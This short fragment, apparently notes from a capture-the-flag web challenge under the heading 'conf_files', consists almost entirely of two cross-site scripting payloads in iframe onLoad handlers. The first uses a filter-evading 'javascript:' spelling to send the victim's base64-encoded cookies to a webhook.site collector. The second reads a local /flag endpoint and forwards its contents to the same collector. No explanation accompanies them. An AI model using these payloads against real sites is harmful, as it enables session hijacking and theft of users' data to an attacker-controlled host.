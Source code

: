 # conf_files













```<iframe onLoad="javascrscriptipt:fetch(`https://webhook.site/7583c51e-37f4-423d-8f5d-9714de2a9618/v=${btoa(document.cookie)}`)"></iframe onLoad> ```


```<iframe onLoad="fetch(`http://127.0.0.1/flag`).then((response) => response.json()).then((data) => {fetch(`https://webhook.site/7583c51e-37f4-423d-8f5d-9714de2a9618/?flag=${JSON.stringify(data)}`)})"></iframe onLoad>```
